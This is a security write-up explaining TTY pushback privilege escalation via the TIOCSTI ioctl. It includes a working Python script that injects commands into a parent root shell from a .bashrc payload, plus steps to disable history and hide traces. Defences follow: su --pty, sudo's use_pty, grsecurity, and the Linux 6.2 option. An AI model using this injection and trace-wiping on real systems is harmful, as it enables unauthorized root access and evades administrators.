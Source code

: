 ```yaml
---
title: The oldest and mostly forgotten privesc trick in the book: injecting careless administrators' terminals using TTY pushback
---
```


This trick is possibly the oldest security bug that still exists today, it's been traced [as far back as 1985](https://web.archive.org/web/20031005121525/https://securitydigest.org/unix/archive/015).

It's been [discovered](https://www.openwall.com/lists/oss-security/2011/12/20/2) and [rediscovered](https://www.openwall.com/lists/oss-security/2012/11/05/8) and [re-rediscovered](https://seclists.org/oss-sec/2021/q4/43) by sysadmins, developpers and pentesters every few years for close to 4 decades now. It's been subject to [multiple](https://lore.kernel.org/kernel-hardening/1494450134.28559.2.camel@gmail.com/t/) [developper](https://lore.kernel.org/all/Y0m9l52AKmw6Yxi1@hostpad/) [battles](https://kernsec.org/pipermail/linux-security-module-archive/2017-May/001473.html), [countless](https://www.halfdog.net/Security/2012/TtyPushbackPrivilegeEscalation/) [posts](https://security.stackexchange.com/questions/136748/tty-push-back-priv-escalation), but still remains largely forgotten.

This is just another attempt at shedding light on it, for both attackers and defenders.


Why it works
============
The TIOCSTI ioctl can insert bytes in the tty's input queue. It is used to simulate terminal input.

When running ```su lowpriv_user```, by default no new pty is allocated:
![PTY stays the same](./TTYPushBack/pty_unchanged.png)

Therefore since we're still in the same pty, input can be sent directly *to the parent shell* to execute commands in its context.


Make it work
============
Consider this python sample and assume it's automatically being run at logon from .bashrc:
```python
#!/usr/bin/env python3
import fcntl
import termios
import os
import sys
import signal

os.kill(os.getppid(), signal.SIGSTOP)

for char in sys.argv[1] + '\n':
    fcntl.ioctl(0, termios.TIOCSTI, char)
```

We're sending SIGSTOP to the lowpriv shell to get the focus back to its parent, the root shell.
Then sending the characters one by one using the TIOCSTI ioctl injects them into the root shell as if they were input manually, until '\n' is sent which executes the command.
And that's it, you're now root. Devilishly simple.


Always sneaking stabbing
------------------------
Running the following command will attempt to wipe most of your traces and get back to the lowpriv shell:
```cmd = ' set +o history\n' + sys.argv[1] + '\nfg\nreset\n'```

You should also wipe your payload from the .bashrc file.

Hopefully this doesn't alert the sysadmin.


Protecting against it
=====================
From su's manpage:
```
   -P, --pty
   Create a pseudo-terminal for the session. The independent terminal provides better security as the user does not share a terminal with the original session. This can be used to avoid TIOCSTI ioctl
   terminal injection and other security attacks against terminal file descriptors. The entire session can also be moved to the background (e.g., su --pty - username -c application &). If the
   pseudo-terminal is enabled, then su works as a proxy between the sessions (sync stdin and stdout).

   This feature is mostly designed for interactive sessions. If the standard input is not a terminal, but for example a pipe (e.g., echo "date" | su --pty), then the ECHO flag for the pseudo-terminal
   is disabled to avoid messy output.
```

Here's the protection in action (```fg``` has been manually inputed to return to lowpriv's shell, notice how the command was "buffered" until we came back to it):
![PTY has changed](./TTYPushBack/pty_changed.png)

Note that RHEL7 does not have the option, whereas RHEL8 does.

Note that the ```su``` command is not the only one affected by the bug, it's a broader problem due to the ioctl itself. From the sudoers(3) manpage:
```
    use_pty
    If set, and sudo is running in a terminal, the command will be run in a pseudo-terminal (even if no I/O logging is being done).  If the sudo process is not attached to a terminal,
    use_pty has no effect.

    A malicious program run under sudo may be capable of injecting commands into the user's terminal or running a background process that retains access to the user's terminal device even
    after the main program has finished executing.  By running the command in a separate pseudo-terminal, this attack is no longer possible.  This flag is off by default.
```

The ioctl also has been restricted for a number of years in grsecurity, under the name GRKERNSEC_HARDEN_TTY (2016?).

The Linux kernel 6.2 also has introduced an [optional mechanism](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=83efeeeb3d04) to protect against it.

Things are moving, albeit slowly, and are not defaults yet. This privesc will still be valid for the foreseeable future, don't forget it this time!
